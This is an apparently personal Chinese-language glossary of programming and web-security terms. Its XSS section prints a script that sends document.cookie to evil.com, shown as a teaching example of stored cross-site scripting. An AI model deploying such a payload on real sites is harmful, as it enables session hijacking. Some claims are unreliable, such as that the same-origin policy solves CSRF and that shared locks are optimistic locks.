






# 编程术语

## Cookie

Cookie 是一种浏览器的缓存机制，在不同的域名下存储了不同的 cookie，当发送请求的时候会将该域名下的 cookie 存储的信息一起发送到服务器之之中。下面是一张浏览器存储 Cookie 的截图：



Cookie 存储的一些元数据信息可以参考下表：

| 字段名       | 是否必须 | 示例值                          | 说明                                                         |
| ------------ | -------- | ------------------------------- | ------------------------------------------------------------ |
| `Name=Value` | ✅ 是    | `login_user=Tomatos`            | Cookie 的键值对内容，必须有，值是字符串                      |
| `Path`       | ❌ 否    | `/`                             | 表示此 Cookie 对哪个路径有效，默认为当前路径                 |
| `Domain`     | ❌ 否    | `.example.com`                  | 指定可以接收此 Cookie 的域名，默认是当前域                   |
| `Expires`    | ❌ 否    | `Wed, 01 May 2025 12:00:00 GMT` | 设置 Cookie 的过期时间（绝对时间）                           |
| `Max-Age`    | ❌ 否    | `86400`（单位：秒）             | 设置 Cookie 的有效期（相对时间），优先于 `Expires`           |
| `Secure`     | ❌ 否    | 无值（只要写上即可）            | 表示此 Cookie 只会在 HTTPS 请求中发送                        |
| `HttpOnly`   | ❌ 否    | 无值                            | 表示此 Cookie 无法被 JavaScript 访问（如 `document.cookie`） |
| `SameSite`   | ❌ 否    | `Strict` / `Lax` / `None`       | 控制跨站请求时是否携带 Cookie，用于防范 CSRF                 |

**注：**Cookie 存储在浏览器(客户端)之中

## Session

Session 是服务器为了保存用户状态而创建的一个特殊的对象。

> [!TIP]
> 每个用户对应一个 Session，会话信息存储在服务端。

工作流程:

```plantuml
title Session 工作流程

actor "客户端浏览器" as Client
participant "服务器" as Server

== 登录阶段 ==

Client -> Server : 发起登录请求（用户名+密码）
Server -> Server : 验证用户信息
Server -> Server : 创建Session对象，生成Session ID
Server --> Client : 通过Set-Cookie返回Session ID

== 后续请求阶段 ==

Client -> Server : 请求（自动携带Cookie: Session ID）
Server -> Server : 通过Session ID查找会话信息
Server --> Client : 返回对应资源
```

**Cookie 与 Session 的对比**

| 特性     | Cookie                           | Session                        |
| -------- | -------------------------------- | ------------------------------ |
| 存储位置 | 客户端浏览器                     | 服务器内存                     |
| 安全性   | 较低，可被客户端查看和修改       | 较高，存储在服务器             |
| 生命周期 | 可持久化存储                     | 默认为会话级，可配置超时时间   |
| 存储容量 | 有限（通常 4KB）                 | 较大（受服务器内存限制）       |
| 性能     | 每次请求都会传输                 | 只传输会话标识符               |
| 适用场景 | 记住用户名、主题偏好等非敏感信息 | 用户认证状态、购物车等敏感数据 |

## Token

Token 是一种身份验证机制，常用于无状态的认证场景。它通过生成一个唯一的字符串来标识用户身份，避免了在每次请求中都需要存储和验证用户的会话信息。

Token 的特点

- **无状态**：服务器不需要存储用户的会话信息，减少了服务器的内存开销。
- **跨平台**：Token 可以在不同的客户端（如 Web、移动端）之间通用。
- **安全性**：通过加密算法生成，难以伪造，但需要注意 Token 的存储和传输安全。

**工作流程**

```plantuml
title Token 工作流程

actor "客户端" as Client
participant "服务器" as Server

== 登录阶段 ==

Client -> Server : 发起登录请求（用户名+密码）
Server -> Server : 验证用户信息
Server -> Server : 生成Token
Server --> Client : 返回Token
Client -> Client : 存储Token（LocalStorage / SessionStorage / Cookie）

== 后续请求阶段 ==

Client -> Server : 请求头携带Token\n（Authorization: Bearer <token>）
Server -> Server : 解析Token验证用户身份
Server --> Client : 返回对应资源
```

常见类型:

- **JWT（JSON Web Token）**：一种常见的 Token 格式，由三部分组成：Header、Payload 和 Signature。它是自包含的，包含了用户的基本信息和签名。
- **OAuth Token**：用于授权的 Token，常用于第三方应用访问用户资源。

- **Token 与 Session 的对比**

| 特性     | Token                  | Session                  |
| -------- | ---------------------- | ------------------------ |
| 存储位置 | 客户端                 | 服务器内存               |
| 状态     | 无状态                 | 有状态                   |
| 安全性   | 依赖加密和传输安全     | 较高，存储在服务器       |
| 生命周期 | 通常有过期时间         | 会话级，可配置超时时间   |
| 适用场景 | 分布式系统、跨平台认证 | 单一服务器的用户会话管理 |

- **Token 存储位置优劣对比**

| 存储位置     | 优点                                           | 缺点                  |
| ------------ | ---------------------------------------------- | --------------------- |
| Session      | -                                              | 无法防范 XSS 攻击     |
| LocalStorage | -                                              | 无法防范 XSS 攻击     |
| Cookie       | 可以防范 XSS 攻击（设置 HttpOnly）<br/>可以防范 CSRF 攻击（设置 SameSite） | -                     |

## CSRF

跨站请求伪造（Cross-Site Request Forgery）, 攻击者诱导用户在已登录的网站上，执行非本意的操作。

**攻击过程：**

1. 你访问了一个恶意网站 evil.com
2. evil.com 的页面中隐藏了一段代码：
    ```html
    
    ```
3. 浏览器加载这个 img 标签时，自动向 bank.com 发起请求
4. 关键点来了：
    - 浏览器发现请求发往 bank.com
    - 自动带上 bank.com 的 Cookie（Session ID）
    - bank.com 收到请求，验证 Cookie 有效
    - 执行转账操作
5. 你完全不知情，钱已经转走了

**攻击流程图**



为什么能成功?

关键原因： 浏览器会自动把目标域名的 Cookie 附加到每个发往该域名的请求上，不管这个请求是从哪里发起的。例如:

bank.com 的 Cookie → 每次发往 bank.com 都会带上, 即使请求是从 evil.com 的页面中发出的

## Same-Origin Policy

Same-Origin Policy 即浏览器同源策略, 该策略决定了**跨域页面无法读取另一个域名下的 Cookie**. 

> [!TIP]
> 
> 该策略能够解决 CSRF 攻击, 因为攻击者无法通过跨域请求读取到用户的 Cookie, 从而无法伪造用户身份发起攻击.

## XSS

XSS（跨站脚本攻击，Cross-Site Scripting）, 攻击者向网页中注入恶意脚本，当用户浏览页面时，脚本在用户浏览器中执行。

**前提条件：**

- 你登录了一个论坛网站 forum.com
- 论坛有评论功能，用户可以发布评论
- 评论内容没有经过过滤

**攻击过程：**

① 攻击者在评论框中输入：

```html
<script>
  fetch('https://evil.com/steal?cookie=' + document.cookie)
</script>
```

② 服务器把这条评论存入数据库

③ 你打开这个帖子，看到所有评论

④ 你的浏览器渲染评论时，执行了这段脚本

⑤ 你的 Cookie（包含 Session ID）被发送到攻击者的服务器

⑥ 攻击者拿到你的 Cookie → 冒充你登录 → 窃取你的数据/执行操作

**攻击流程：**



为什么能成功?

浏览器会自动执行 HTML 中的 `<script>` 标签，如果服务端没有对用户输入进行过滤和转义，恶意脚本就会被当作正常内容插入页面，从而在其他用户的浏览器中执行。

## CORS

CORS（Cross-Origin Resource Sharing，跨域资源共享）是浏览器处理**跨源请求**的一套标准机制。

当请求的 **协议、域名、端口** 这三者中任意一个与当前页面不同，就属于跨源请求，也就是常说的“跨域”：

- `http://example.com` 请求 `http://example.com/api`：同源
- `https://example.com` 请求 `http://example.com/api`：不同协议，跨源
- `http://www.example.com` 请求 `http://api.example.com`：不同域名，跨源
- `http://example.com:80` 请求 `http://example.com:8080`：不同端口，跨源

**工作流程**



> [!TIP]
> - CORS 解决的是“浏览器是否允许前端脚本读取响应”的问题，不是“请求能不能到达服务器”的问题。
> [!NOTE]
> - 服务端之间的请求不受同源策略限制，因为同源策略是浏览器的安全机制。

## 多线程

### 并发

并行指系统在同一时间段内能够**同时交替行多个任务**。强调的任务的“交替进行”

### 并行

并行指系统在同一时刻能够**同时执行多个任务**。强调的任务的“同时进行”，通常依赖于多核或多处理器硬件.

### 乐观锁

乐观锁是一种多线程同步机制，允许多个线程并发访问共享资源，但在**更新资源**时会进行冲突检测。

### 悲观锁

悲观锁是一种多线程同步机制，假设会发生冲突，因此在访问共享资源时会先获取锁，确保只有一个线程可以访问到资源, 其他线程需要等待。

### 公平锁

公平锁是一种多线程同步机制，确保线程按照请求锁的顺序获取锁.

> [!TIP]
> 公平锁会造成一定的性能开销

### 非公平锁

非公平锁是一种多线程同步机制，允许线程在请求锁时不按照顺序获取锁，这可能导致某些线程长时间等待。

> [!TIP]
> 如果没有顺序要求,使用非公平锁可以提高性能

### 独占锁和共享锁

根据锁只能被单个线程持有还是能被多个线程共同持有，锁可以分为独占锁和共享锁

> [!TiP]
> 独占锁是也是一种悲观锁, 而共享锁是也是一种乐观锁

### 可重入锁

可重入锁（Reentrant Lock）是一种允许同一线程多次获取同一把锁的锁机制。它可以避免死锁问题，因为同一线程在持有锁的情况下可以再次获取该锁而不会被阻塞。

### 自旋锁

当一个线程尝试获取锁时，如果锁已经被其他线程占用，它不会进入阻塞状态，而是通过循环（自旋）不断地检查锁是否可用。只有当锁被释放后，线程才会获得锁并继续执行。

> [!TIP]
> 自旋锁使用 CPU 时间换 取线程阻塞与调度的开销，但是很有可能这些 CPU 时间白白浪费

> [!TIP]
> 自旋锁适用于锁持有时间很短、线程切换开销较大的场景，可以减少线程上下文切换带来的性能损耗。但如果锁竞争激烈或持有时间较长，自旋会浪费大量 CPU 资源。

> [!NOTE]
> 常见的自旋锁实现有 `CAS`（Compare And Swap）等原子操作。

### CAS

CAS（Compare And Swap）是一种常用的原子操作机制，广泛应用于多线程编程中。它通过比较内存中的某个值是否等于预期值，如果相等则将其更新为新值，否则不做任何操作。CAS 操作通常由硬件(CPU)指令支持，能够保证在多线程环境下的并发安全。

工作原理

1. 读取变量的当前值（旧值）。
2. 比较当前值与预期值是否相等。
3. 如果相等，则将变量更新为新值；否则不做任何操作。

CAS 操作是原子的，不会被其他线程中断，因此可以实现无锁并发。

**优点：**

- 无需加锁，性能高，避免了线程阻塞和上下文切换。
- 适用于高并发场景。

**缺点：**

- 可能出现 ABA 问题（即变量值从 A 变为 B 又变回 A，CAS 认为没有变化）。
- 循环重试可能导致性能下降。

> [!NOTE]
> Java 中`Unsafe类`, `VarHandle类(JDK 9+)`提供了CAS 操作的支持，如 `compareAndSwapInt`、`compareAndSwapObject` 等方法。

### 弱一致性

弱一致性（Weak Consistency）指的是系统**不保证每次读操作都能获得最新写入的数据**.
也就是说，写操作完成后，其他节点或线程可能在一段时间内还看不到最新的数据

### 强一致性

强一致性（Strong Consistency）指的是系统在**每次写操作完成后，所有后续的读操作都能立即读取到最新写入的数据。**
也就是说，系统中的所有节点、线程或副本在任何时刻都能看到同样的数据状态，**不会出现读到旧数据或不同步数据的情况**。

## SQL

SQL（Structured Query Language）是一种用于管理关系型数据库的标准查询语言。

### DDL

DDL（Data Definition Language） 数据定义语言，用于定义数据库结构和模式。

### DML

DML（Data Manipulation Language） 数据操作语言，用于对数据库中的数据进行查询

### DQL

DQL（Data Query Language） 数据查询语言，用于从数据库中检索数据。

### DCL

DCL（Data Control Language） 数据控制语言，用于控制对数据库的访问权限。

### TCL

TCL（Transaction Control Language） 事务控制语言，用于管理数据库事务。

## Spring

### IOC

对象的创建不再由自己手动创建, 而是从容器之中获取. 这种将控制权交给别人的思想就是所谓的控制反转(Inverse of Control，IOC)

### DL

依赖查找(Dependency Lookup), 根据指定的对象名称或对象的所属类型，主动从IOC容器中获取对应的具体对象

### DI

依赖注入(Dependency Injection), 由IOC容器在创建对象时, 将该对象所依赖的其他对象自动注入到该对象之中

## 非对称加密

非对称加密是一种加密技术，核心在于使用一对密钥：公钥和私钥。

公钥：可以公开分发，任何人都可以获取。
私钥：需要严格保密，只能由拥有者掌握。

### 工作流程



- 数据摘要 = 对数据进行哈希运算得到固定长度的序列
- 数字签名 = 加密后的摘要

| 操作     | 谁执行     | 谁验证/解密        | 安全目标          |
| -------- | ---------- | ------------------ | ----------------- |
| 公钥加密 | 任何人     | 私钥持有者         | 保密性            |
| 私钥加密 | 私钥持有者 | 公钥持有者(任何人) | 身份认证 & 完整性 |

## 位掩码

**位掩码**是一种用于操作二进制数据的技术。它是一个特定的二进制数，通过与目标数据进行按位运算（通常是与运算 `&`），可以“屏蔽”或“提取”数据中的某些位

```bash
0101010110  (目标数据)
0011110000  (位掩码)
```

## JIT

JIT（Just-In-Time，实时编译）是一种程序执行优化技术。它在程序运行期间，将字节码或中间代码动态编译为机器码，从而提升程序的执行效率。JIT 编译器常见于 Java、.NET 等虚拟机环境，可以根据实际运行情况进行优化，使得程序既具有解释执行的灵活性，又能获得接近原生代码的性能。



## JNI

JNI（Java Native Interface，Java 本地接口）是一种编程框架，允许 Java 代码与其他编程语言（如 C、C++）编写的本地代码进行交互。通过 JNI，Java 程序可以调用本地方法库中的函数，或者让本地代码调用 Java 方法。这种机制使得 Java 应用能够利用现有的本地库和系统资源，从而扩展其功能和性能。

## JMM

JMM（Java Memory Model，Java 内存模型）定义了 Java 程序中变量（包括实例字段、静态字段和数组元素）在内存中的访问规则。JMM 规定了多线程环境下，Java 程序如何通过主内存和工作内存来进行变量的读写操作，从而确保线程之间的可见性、有序性和原子性。

## 事务

### 本地事务

本地事务是指在单一数据源（如同一个数据库实例）中进行的事务操作。它由数据库自身的事务管理机制（如ACID特性）保证一致性、原子性、隔离性和持久性。常见于单体应用或只涉及一个数据库的场景。

### 分布式事务

分布式事务是指跨越多个不同的数据源（如多个数据库、消息队列、微服务等）的事务操作。它需要协调多个参与方共同提交或回滚，以保证全局数据一致性。常见的分布式事务协议有两阶段提交（2PC）、三阶段提交（3PC）和基于消息的最终一致性方案等。
